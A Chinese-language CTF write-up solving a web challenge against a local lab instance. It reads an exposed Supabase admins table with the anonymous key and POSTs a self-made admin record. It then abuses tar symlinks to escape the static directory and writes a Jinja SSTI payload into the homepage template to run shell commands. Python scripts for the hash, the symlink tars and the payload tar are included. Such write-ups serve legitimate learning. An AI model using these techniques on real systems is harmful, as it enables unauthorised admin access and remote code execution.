# Mini L-CTF 2026 web类个人题解

## 4. 博丽神社的御神签

在源代码结构里看到了很多supabase，尝试去了解：





在页面源码（索引）中看到配置：



把题目里的 key 放到 https://jwt.io/ 解码，可以看到："role": "anon"

而这里的匿名用户应该权限不大，应该只能读不能写

点击抽签按钮，用浏览器 F12 -> Network 面板观察请求，可以看到前端访问了类似这样的接口：/rest/v1/omikuji_entries



尝试访问http://127.0.0.1:55483/rest/v1

发现除了 omikuji_entries 表，还有 admins 表

继续尝试访问http://127.0.0.1:55483/rest/v1/admins，读到了管理员数据：



可知哈希的配置：

| 算法：pbkdf2-sha256 | 迭代次数：240000 | 盐值：shrineledger |
| --- | --- | --- |

而且匿名用户居然可以看到敏感的管理员信息，可尝试利用权限错误，看看除了读之外，能不能写入自己的管理员账号

先生成一个自己的密码哈希：

| 用户名：admin | 密码：ctf123456 |
| --- | --- |

Python 生成脚本如下：

```python
import hashlib
import base64

password = "ctf123456"
salt = "shrineledger"
rounds = 240000

digest = hashlib.pbkdf2_hmac(
    "sha256",
    password.encode("utf-8"),
    salt.encode("utf-8"),
    rounds,
)

encoded = base64.urlsafe_b64encode(digest).decode().rstrip("=")
hash_text = f"$pbkdf2-sha256${rounds}${salt}${encoded}"
print(hash_text)
```

运行得到哈希：



然后向使用Burp Suite向 admins 表 POST 一条记录（从GET记录添加至重发器后修改而来）：

原GET记录：



修改后的POST记录：



主要修改点：

- 把GET改为POST

- 把请求地点从网站首页改为管理员接口表

- 添加请求体的格式：Content-Type

- 添加请求体

获得了一个nice的响应：201 CREATED



访问http://127.0.0.1:55483/rest/v1/admins再次验证



利用自己的管理员账号进入后台！！！

登录后台后，可以看到上传并同步静态资源的功能。

问题在于 tar 压缩包（不安全）里可以放符号链接可绕出 static 目录

可先用符号链接读取 app.py（试试能不能读）

思路是：

1. 上传一个 tar 包，里面只有一个符号链接 pivot

2. pivot 指向 ../app.py

3. 后台的静态文件列表会显示 pivot

4. 点击 pivot，相当于通过 static 目录访问 /app/app.py

生成 tar 的 Python 脚本：

```python
import tarfile

with tarfile.open("read_app.tar", mode="w") as tar:
    link = tarfile.TarInfo("pivot")
    link.type = tarfile.SYMTYPE
    link.linkname = "../app.py"
    tar.addfile(link)
```

运行后上传 read_app.tar在页面能看到 pivot，点击后下载并读到 app.py

发现源码中有：

```python
app.config["TEMPLATES_AUTO_RELOAD"] = True
app.jinja_env.auto_reload = True
```

```python
@app.route("/")
def index():
    return render_template("index.html")
```

这就说明：如果能覆盖 /app/templates/index.html，就能影响首页渲染

可使用的 payload 是：

```jinja
{{ cycler.__init__.__globals__.os.popen('命令').read() }}
```

含义可以理解为：

1. cycler 是 Jinja2 模板环境里的一个内置对象。

2. 通过 cycler.__init__.__globals__ 可以摸到 Python 函数的全局变量。

3. 全局变量里有 os 模块。

4. os.popen('命令').read() 可以执行系统命令并读取输出。

尝试生成覆盖模板的两个 tar 包（尝试写）

分两次上传：

第一次上传：创建符号链接 pivot，让 pivot 指向 ../templates。

第二次上传：往 pivot/index.html 写入恶意模板内容。

完整生成脚本如下，保存为 make_payloads.py：

```python
import tarfile
import io

def build_symlink_tar(filepath: str) -> None:
    with tarfile.open(filepath, mode="w") as tar:
        link = tarfile.TarInfo("pivot")
        link.type = tarfile.SYMTYPE
        link.linkname = "../templates"
        tar.addfile(link)

def build_payload_tar(filepath: str, command: str) -> None:
    payload = "{{ cycler.__init__.__globals__.os.popen(%r).read() }}" % command
    data = payload.encode("utf-8")

    with tarfile.open(filepath, mode="w") as tar:
        tpl = tarfile.TarInfo("pivot/index.html")
        tpl.size = len(data)
        tar.addfile(tpl, io.BytesIO(data))

build_symlink_tar("link_templates.tar")
build_payload_tar("payload_ls_tmp.tar", "ls -la /tmp")
```

运行生成link_templates.tar和payload_ls_tmp.tar

在后台依次上传：link_templates.tar和payload_ls_tmp.tar

访问首页得flag文件名：（这玩意还在变）



知道文件名后，把 payload 的命令改成：

```bash
cat /tmp/therealflag_c0ef1956e7df629d80adff08ef491a1a
```

重新运行：python make_payloads.py上传生成的新tar

再次访问首页得到flag（对初学者来说。。。）


